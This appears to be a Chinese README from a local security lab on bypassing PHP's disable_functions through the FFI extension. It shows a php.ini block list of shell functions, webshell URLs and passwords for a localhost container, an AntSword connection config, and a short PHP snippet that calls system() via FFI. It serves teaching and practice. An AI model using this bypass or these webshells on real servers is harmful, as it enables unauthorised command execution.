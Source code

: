 ## 08 利用 FFI 扩展

### php.ini 配置如下:

```ini
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system,putenv
```

### 使用条件

* Linux 操作系统
* PHP >= 7.4
* 开启了 FFI 扩展且 ffi.enable=true

```
[ffi]
; FFI API restriction. Possible values:
; "preload" - enabled in CLI scripts and preloaded files (default)
; "false"   - always disabled
; "true"    - always enabled
ffi.enable=true

; List of headers files to preload, wildcard patterns allowed.
;ffi.preload=
```

###  绕过实验

AntSword >= 2.1.4

我们的最终目的是获取 `/flag` 的内容, 这个文件是 600 权限，`www-data` 用户无法通过读文件的形式读到内容, 需要执行拥有 SUID 权限的 `tac` 命令(具体看 `/start.sh`)来获取 flag

1. 启动环境

```
$ docker-compose up -d
```

Shell | 密码
:-:|:-:
`http://127.0.0.1:18080/index.php` | ant
`http://127.0.0.1:18080/shell.php` | ant

2. 打开 AntSword 添加 Shell

![1.png](https://i.loli.net/2020/03/12/fCaItVpEKUsjNlr.png)

也可直接使用配置导入插件导入下面的配置:

```
{"_id":"NKonQAcRd5DAIcRj","addr":"IANA 保留地址用于本地回送","category":"default","ctime":1562515402313,"decoder":"default","encode":"UTF8","encoder":"base64","httpConf":{"body":{},"headers":{"User-Agent":"Mozilla/5.0 (iPhone; CPU iPhone OS 8_0 like Mac OS X) AppleWebKit/600.1.4 (KHTML, like Gecko) Mobile/12A365 MicroMessenger/5.4.1 NetType/WIFI"}},"ip":"127.0.0.1","note":"AntSword-Labs Bypass disable functions 8","otherConf":{"chunk-step-byte-max":"3","chunk-step-byte-min":"2","command-path":"","filemanager-cache":1,"ignore-https":1,"request-timeout":"30000","terminal-cache":0,"upload-fragment":"500","use-chunk":0,"use-multipart":0},"pwd":"ant","type":"php","url":"http://127.0.0.1:18080/index.php","utime":1562515402313}
```

3. 使用「绕过 disable_functions」插件, 选择 `PHP74_FFI` 模式进行

![2.png](https://i.loli.net/2020/03/12/qMiSx4ZrdnNE6z5.png)

> 注意: 刚点进来的时候, 左侧状态栏处除了版本之外都是 NO

4. 点击「开始」按钮后，成功之后, 会创建一个新的「虚拟终端」


5. 尝试执行命令, 成功

![3.png](https://i.loli.net/2020/03/12/s2ohQzbXLVlJmva.png)


#### 手动

PHP 代码:

```
$ffi = FFI::cdef("int system(const char *command);");
$ffi->system("whoami > /tmp/123");
echo file_get_contents("/tmp/123");
@unlink("/tmp/123");
```

运行后即可看到执行结果:

![4.png](https://i.loli.net/2020/03/12/V5Xx4ZgweMp1lHE.png)
